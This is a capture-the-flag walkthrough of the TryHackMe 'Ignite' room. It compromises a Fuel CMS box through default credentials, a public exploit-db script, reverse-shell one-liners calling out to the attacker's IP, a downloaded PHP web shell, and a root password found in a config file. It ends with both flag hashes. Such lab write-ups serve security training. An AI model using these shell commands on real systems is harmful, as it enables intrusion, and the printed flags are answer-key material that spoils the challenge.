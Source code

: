 ```yaml
---
description: 'https://tryhackme.com/room/ignite'
---
```


# Ignite

[https://sckull.github.io/posts/ignite/](https://sckull.github.io/posts/ignite/)

## INIT

```text
export ignite=10.10.28.158
ping $ignite

echo "10.10.28.158 ignite.thm" >> /etc/hosts
```

## NMAP

```text
nmap -sC -sV -O $ignite
```

![](../.gitbook/assets/image%20%28398%29.png)

## GOBUSTER

```text
gobuster dir -u $ignite -w /usr/share/wordlists/dirb/common.txt -q -t 15 -x php,html,txt
```

![](../.gitbook/assets/image%20%28377%29.png)

## HTTP

![](../.gitbook/assets/image%20%28388%29.png)

![](../.gitbook/assets/image%20%28396%29.png)

![](../.gitbook/assets/image%20%28380%29.png)

{% hint style="info" %}
login: admin

password: admin
{% endhint %}

![](../.gitbook/assets/image%20%28386%29.png)

![](../.gitbook/assets/image%20%28376%29.png)

```text
searchsploit Fuel
searchsploit -p 47138
```

![](../.gitbook/assets/image%20%28394%29.png)

```text
cp /usr/share/exploitdb/exploits/linux/webapps/47138.py ignite.py
```

![](../.gitbook/assets/image%20%28378%29.png)

```text
nc -e /bin/sh 10.14.4.204 1234
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.14.4.204 4444 >/tmp
```

![](../.gitbook/assets/image%20%28384%29.png)

```text
cmd:bash shell.sh
```

![](../.gitbook/assets/image%20%28392%29.png)

```text
python3 ignite.py
wget http://10.14.4.204:8000/phpbash.php
```

![](../.gitbook/assets/image%20%28383%29.png)

![](../.gitbook/assets/image%20%28390%29.png)

![](../.gitbook/assets/image%20%28379%29.png)

![](../.gitbook/assets/image%20%28391%29.png)

### User.txt

{% hint style="success" %}
6470e394cbf6dab6a91682cc8585059b
{% endhint %}

```text
python -c 'import pty; pty.spawn("/bin/bash")'
```

![](../.gitbook/assets/image%20%28389%29.png)

```text
 cat /var/www/html/fuel/application/config/database.php
```

![](../.gitbook/assets/image%20%28395%29.png)

```text
su -
password: mememe
cat /root/root.txt
```

![](../.gitbook/assets/image%20%28387%29.png)

### Root.txt

{% hint style="success" %}
b9bbcb33e11b80be759c4e844862482d
{% endhint %}

